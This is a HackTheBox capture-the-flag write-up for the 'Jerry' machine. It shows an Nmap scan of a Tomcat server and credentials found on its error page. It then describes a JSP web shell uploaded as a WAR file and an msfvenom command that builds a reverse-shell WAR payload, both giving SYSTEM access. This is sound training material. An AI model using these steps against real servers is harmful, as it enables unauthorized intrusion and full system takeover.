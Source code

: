 # HackTheBox - Jerry Writeup


## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


![apache default page](apache-default-install-page.png "apache default page")

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![found credentials in error page](error-page.png "found credentials in error page")

### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![upload button](upload-the-war-file-page.png "upload button")

## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![convert jsp to war file](convert-jsp-file-into-war-file.png "convert jsp to war file")

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![upload war webshell file](webshell-created-after-upload.png "upload war webshell file")

To spawn the shell, just click the `/webshell` path in the table. 


![whoami nt authority\system](run-the-whoami-in-the-webshell.png "whoami nt authority\system")

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```

![msfvenom create war payload](created-msfvenom-payload.png "msfvenom create war payload")

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![shell as nt authority\system](nc-reverse-shell-callback.png "shell as nt authority\system")
